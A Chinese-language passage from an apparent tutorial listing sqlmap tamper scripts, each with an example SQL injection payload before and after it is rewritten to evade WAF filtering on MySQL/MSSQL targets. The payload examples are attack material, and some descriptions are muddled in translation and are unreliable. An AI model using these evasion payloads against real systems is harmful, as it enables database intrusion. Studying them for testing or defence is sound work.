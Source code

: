8、securesphere.py

作用：追加特制的字符串

```
('1 AND 1=1')替换后"1 AND 1=1 and '0having'='0having'"
```

二、MSSQL 数据库

1、space2hash.py

作用：绕过过滤‘=’ 替换空格字符（”），（’ – ‘）后跟一个破折号注释，一个随机字符串和一个新行（’ n’）

```
'1 AND 9227=9227'替换后'1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'
```

2、equaltolike.py

作用：like 代替等号

```
SELECT \* FROM users WHERE id=1替换后SELECT \* FROM users WHERE id LIKE 1
```

3、space2mssqlblank.py(mssql)

作用：空格替换为其它空符号

```
SELECT id FROM users替换后SELECT%08id%02FROM%0Fusers
```

4、space2mssqlhash.py

作用：替换空格

```
('1 AND 9227=9227')替换后'1%23%0AAND%23%0A9227=9227'
```

5、between.py

作用：用 between 替换大于号（>）

```
('1 AND A > B--')替换后'1 AND A NOT BETWEEN 0 AND B--'
```

6、percentage.py

作用：asp 允许每个字符前面添加一个 % 号

```
SELECT FIELD FROM TABLE替换后%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E
```

7、sp\_password.py

作用：追加 sp\_password’从 DBMS 日志的自动模糊处理的有效载荷的末尾

```
('1 AND 9227=9227-- ')替换后'1 AND 9227=9227-- sp\_password'
```
